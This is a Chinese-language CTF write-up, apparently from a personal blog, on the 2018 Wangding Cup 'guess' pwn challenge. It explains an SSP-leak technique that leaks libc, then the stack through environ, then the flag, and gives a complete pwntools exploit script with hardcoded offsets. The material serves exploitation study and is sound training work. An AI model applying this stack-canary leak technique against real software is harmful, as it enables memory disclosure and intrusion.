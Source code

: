 ```yaml
---
title: 2018网鼎杯guess (ssp leak)
comments: true
date: 2018-08-22 08:13:34
categories:
tags:
	- CTF
	- ssp leak
---
```




[题目下载](GUESS_3761eaaa3eb6e09db4eecc56b64f32e3.zip)



## 分析题目

 ![img-1](2018网鼎杯guess-ssp-leak/img-1.png)



程序把flag读在栈上，提供了栈溢出，但是有canary保护，看似没有其他漏洞了.

可以使用[ssp leak](https://amliaw4.github.io/2018/08/22/ssp-leak/)，但是不知道栈地址。

从程序提供3次输入机会想到可以先用got地址泄露libc，然后用libc上的environ泄露栈地址，然后算出得到的栈地址与flag的距离，最后拿flag。

```python
from pwn import *
context.terminal = ['gnome-terminal', '-x', 'sh', '-c']
# context.log_level = 'debug'

environ = 0x03C6F38
p = process("./GUESS")
p.sendline(p64(0x602040)*0xa0)
print p.recvuntil("***: ")
read_offset = u64(p.recv(6).ljust(8, "\x00"))
libc = read_offset - 0xF7250
environ += libc
print hex(libc)

p.recvuntil("flag\n")
p.sendline(p64(environ)*0xa0)
print p.recvuntil("***: ")
stack = u64(p.recv(6).ljust(8, "\x00"))
print hex(stack)

p.recvuntil("flag\n")
p.sendline(p64(stack - 0x168)*0xa0)
print p.recvuntil("***: ")
print p.recvline()
p.close()

```

- 地址 0x03C6F38：
  - environ地址
  - `libc.symbols['__environ']`

- 地址 0x602040：
  - read 的 got.plt 地址

- 地址 0xF7250：
  - `libc.symbols['read']`



## 参考

https://paper.tuisec.win/detail/f8d629ce47c117c

https://xz.aliyun.com/t/2608#toc-7
